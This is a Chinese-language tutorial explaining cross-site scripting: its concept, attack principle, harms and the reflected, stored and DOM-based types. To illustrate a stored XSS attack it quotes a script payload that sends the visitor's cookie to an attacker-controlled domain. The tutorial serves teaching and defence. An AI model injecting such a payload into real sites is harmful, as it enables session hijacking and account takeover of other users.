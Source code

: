 # 一、跨站脚本攻击 XSS

## 概念

跨站脚本攻击（Cross-Site Scripting， XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

> 其原本缩写是 CSS，但为了和层叠样式表(Cascading Style Sheet)有所区分，因而在安全领域叫做 XSS。

## 攻击原理

将一些隐私数据（比如 cookie、session）发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

## 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

## 攻击类型

XSS 攻击可以分为 3 类：反射型（非持久型）、存储型（持久型）、基于 DOM。

### 反射型

反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器，这种攻击方式往往需要攻击者诱使用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。



### 存储型

存储型 XSS 会把用户输入的数据 "存储" 在服务器端，当浏览器请求数据时，脚本从服务器上传回并执行。这种 XSS 攻击具有很强的稳定性。

比较常见的一个场景是攻击者在社区或论坛上写下一篇包含恶意 JavaScript 代码的文章或评论，文章或评论发表后，所有访问该文章或评论的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。



### 基于 DOM

基于 DOM 的 XSS 攻击是指通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击。
